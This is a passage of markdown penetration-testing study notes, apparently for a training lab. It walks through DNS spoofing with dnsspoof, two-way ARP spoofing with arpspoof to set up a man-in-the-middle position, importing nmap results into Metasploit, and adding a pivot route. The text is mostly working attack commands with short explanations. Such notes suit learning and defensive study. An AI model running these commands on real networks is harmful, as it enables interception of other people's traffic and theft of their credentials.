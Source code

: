 > This will start the server up for the relay attack.

```Shell
echo "<our-ip-address> *.sportsfoo.com" > dns
```

> By this command we have created a fake kind of `DNS` file that can be used to spoof the DNS then.

```Shell
dnsspoof -i eth1 -f dns
```

> The command  uses the `dnsspoof` tool to intercept and spoof DNS queries on the network interface `eth1`, using the DNS in the `dns` file that we just created. This is used to attract all the traffic towards the attacker machine.

```Shell
echo 1 > /proc/sys/net/ipv4/ip_forward
```

> This command can be used to enable ip-forwarding.

```Shell
arpspoof -i eth1 -t 172.16.5.5 172.16.5.1
arpspoof -i eth1 -t 172.16.5.1 172.16.5.5
```

> The attacker positions themselves in the middle of the communication between `172.16.5.5` and `172.16.5.1`, enabling a Man-in-the-Middle (MitM) attack.

***EXPLAINATION:***

The commands use `arpspoof` to perform ARP spoofing, tricking the devices at IP addresses `172.16.5.5` and `172.16.5.1` into thinking the attacker's MAC address belongs to each other. This redirects the network traffic between these two devices through the attacker, enabling a Man-in-the-Middle (MitM) attack.

#### Importing Nmap Scan Results Into MSF

> Following set of commands can be used to import a scan into your `msfconsole`

```msfconsole
nmap -sV -Pn -oX my-scan.xml <ip-address>
service postgresql start
msfconsole -q
db_status
db_import my-scan.xml
hosts
services
```

#### Network Service Scanning

***THIS IS DONE VIA PIVOTING AND EVERYTHING DEMOSTARTED UNDER IS DONE AFTER EXPLOITATION***

```shell
run autoroute -s <ip-address>
```

> This command can be used add the route to Metasploit's routing table.
